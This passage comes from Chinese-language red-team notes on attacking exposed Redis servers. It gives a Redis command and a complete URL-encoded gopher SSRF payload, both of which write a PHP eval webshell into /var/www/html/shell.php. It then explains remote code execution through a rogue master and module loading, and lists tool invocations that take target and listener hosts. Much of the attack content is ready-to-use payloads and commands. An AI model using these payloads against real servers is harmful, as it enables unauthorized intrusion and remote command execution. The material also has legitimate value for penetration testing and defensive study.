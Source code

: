     这里的第三步写入 webshell 的时候，也可以使用
    ```bash
    set xxx "\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n"
    ```

    `\r\n\r\n` 代表换行，用 redis 写入文件的话会自带一些版本信息，如果不换行的话可能会导致无法执行, 可见下图

    ![](../../../../assets/img/security/RedTeam/软件服务安全/CS-Exploits/1.png)

    gopher payload
    ```
    gopher://127.0.0.1:6379/_*1%0d%0a\$8%0d%0aflushall%0d%0a*3%0d%0a\$3%0d%0aset%0d%0a\$1%0d%0ax%0d%0a\$25%0d%0a%3C%3Fphp%20%40eval(%24_POST%5Bc%5D)%3B%3F%3E%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$3%0d%0adir%0d%0a\$13%0d%0a/var/www/html%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$10%0d%0adbfilename%0d%0a\$9%0d%0ashell.php%0d%0a*1%0d%0a\$4%0d%0asave%0d%0a
    ```

**主从复制远程代码执行漏洞**
- 简介

    先创建一个恶意的 Redis 服务器作为 Redis 主机 (master)，该 Redis 主机能够回应其他连接他的 Redis 从机的响应。有了恶意的 Redis 主机之后，就会远程连接目标 Redis 服务器，通过 slaveof 命令将目标 Redis 服务器设置为我们恶意 Redis 的 Redis 从机(slaver)。然后将恶意 Redis 主机上的 exp 同步到 Reids 主机上，并将 dbfilename 设置为 exp.so。最后再控制 Redis 从机（slaver）加载模块执行系统命令即可

    补充 : redis 4.0.0 版本开始才支持 module load

- 搭建环境
    ```bash
    yum install -y tcl
    wget download.redis.io/releases/redis-4.0.11.tar.gz
    tar zxf redis-4.0.11.tar.gz
    cd redis-4.0.11
    make PREFIX=/usr/local/redis install

    /usr/local/redis/bin/redis-server

    参考 https://mp.weixin.qq.com/s/MSWLqzyNnliX1G7TRYAwVw
    ```

- 相关文章
    - [Redis 基于主从复制的 RCE 利用方式](https://paper.seebug.org/975/)
    - [Redis主从复制RCE影响分析](https://mp.weixin.qq.com/s/YPLnYWsBMAYij7wXHVpodg) - 介绍了 redis 主从rce后如何恢复的方法，可以学习一下

- POC | Payload | exp
    - [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) - 该工具无法对 Redis 密码进行 Redis 认证，也就是说该工具只能在目标存在 Redis 未授权访问漏洞时使用。如果存在密码是不能使用的
        ```bash
        python3 redis-rogue-server.py --rhost rhost --lhost lhost
        ```
    - [Ridter/redis-rce](https://github.com/Ridter/redis-rce)
        ```bash
        python3 redis-rce.py -r rhost -L lhost -f exp.so -a password
        ```
    - [n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)
    - [0671/RedisModules-ExecuteCommand-for-Windows](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows)
    - [LoRexxar/redis-rogue-server](https://github.com/LoRexxar/redis-rogue-server)
    - [No-Github/redis-rogue-server-win](https://github.com/No-Github/redis-rogue-server-win)
    - [r35tart/RedisWriteFile](https://github.com/r35tart/RedisWriteFile) - 通过 Redis 主从写出无损文件
    - [Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server)
    - [0671/RabR](https://github.com/0671/RabR)
